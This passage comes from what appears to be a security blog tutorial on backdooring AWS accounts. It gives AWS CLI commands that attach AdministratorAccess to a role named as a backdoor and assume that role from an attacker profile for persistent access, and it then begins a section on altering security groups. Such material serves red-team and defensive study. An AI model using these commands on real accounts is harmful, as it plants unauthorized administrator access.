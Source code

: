 ![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-02-01-Create-Role.png)
_Creating new role_

Next, we will attach the `AdministratorAccess` managed policy to this role to have full control once we assume it later on.

```bash
aws iam attach-role-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --role-name backdoor-case-02
```

All that's left now is to assume this role. We can do that using the `sts assume-role` call:

```bash
aws sts assume-role --role-arn arn:aws:iam::xxxxxxxxxxxx:role/backdoor-case-02 --role-session-name backdoor-case-02-session --profile attacker
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-02-02-Assume-Role.png)
_Assuming a role_

In response, we get the `access key id`. `secret access key`, and the `session token` of our backdoored role. Now whenever we need access to this account, we can simply use the above command to assume this role.

## Persistence - Changing Security Group
As per [AWS Docs](https://docs.aws.amazon.com/vpc/latest/userguide/security-groups.html): _A security group acts as a firewall that controls the traffic allowed to and from the resources in your virtual private cloud (VPC). You can choose the ports and protocols to allow for inbound traffic and outbound traffic._
